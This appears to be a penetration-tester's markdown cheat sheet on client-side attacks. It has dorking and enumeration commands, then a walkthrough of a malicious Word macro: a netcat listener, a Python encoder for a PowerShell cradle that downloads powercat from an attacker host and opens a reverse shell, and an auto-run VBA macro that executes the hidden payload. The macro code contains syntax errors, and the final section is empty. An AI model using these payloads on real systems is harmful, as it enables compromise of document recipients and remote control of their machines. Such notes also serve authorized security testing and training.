 # Client-side attacks

## Dorking

Passive: `site:www.site-to-hack.com filetype:pdf`
Gobuster: `gobuster dir -x pdf -u $TargetIp -w /usr/share/wordlist/dirb/commont.txt`
Exiftool: `exiftool -a -u somefile.pdf`

## Macros

### Word

Start a listener:
```
kali$ nc -lnvp $AttackerPort
```
base64 encode a PowerShell reverse shell, or a download cradle for [PowerCat](https://github.com/besimorhino/powercat):
```
import base64

text = "IEX(New-Object System.Net.WebClient).DownloadString('http://$AttackerIp/powercat.ps1');powercat -c $AttackerIp -p $AttackerPort -e powershell"

payload = base64.b64encode(bytes(text, 'utf-16-le')).decode('utf-8') # WARNING: Windows uses UTF-16-LE encoding...

print("PowerCat cradle:", text)
print("Payload, base64 utf-16-le encoded:", payload)

n = 50 

print("Str = \"powershell.exe -nop -w hidden -e \"")
for i in range(0, len(payload), n):
    print("Str = Str + " + '"' + payload[i:i+n] + '"')
```
embed it in Word macro:
```
Sub AutoOpen()
  MyMacro
End Sub
Sub Document_Open()
  MyMacro
End Sub
Sub MyMacro()
  Dim Str As String
  Str = "powershell.exe -nop -w hidden -enc"
  Str += Str + "some"
  Str += Str + "long"
  Str += Str + "base64"
  Str += Str + "utf-16-le"
  Str += Str + "string"
  CreateObject("Wscript.Shell").Run "Str"
End Sub
```
and start an http server:
```
kali$ python3 -m http.server 80
```

### Library files

```

```
